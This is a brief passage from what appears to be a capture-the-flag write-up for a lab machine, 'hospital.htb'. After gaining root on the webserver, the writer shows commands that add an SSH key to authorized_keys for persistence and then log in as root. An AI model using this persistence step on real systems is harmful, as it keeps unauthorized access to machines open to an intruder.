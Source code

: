 - And we are root on the webserver:

![image21](../resources/907b47f33c1046f4ab74e13d0a2260aa.png)

**<u>Get SSH access and some persistence:</u>**

```bash
ssh-keygen -t rsa -b 4096
chmod 600 id_rsa
cat id_rsa.pub
echo "\<id_rsa.pub\>" >> authorized_keys

ssh root@hospital.htb -i id_rsa
```

![image22](../resources/ed8443863e92463dbc6697c521be35e7.png)

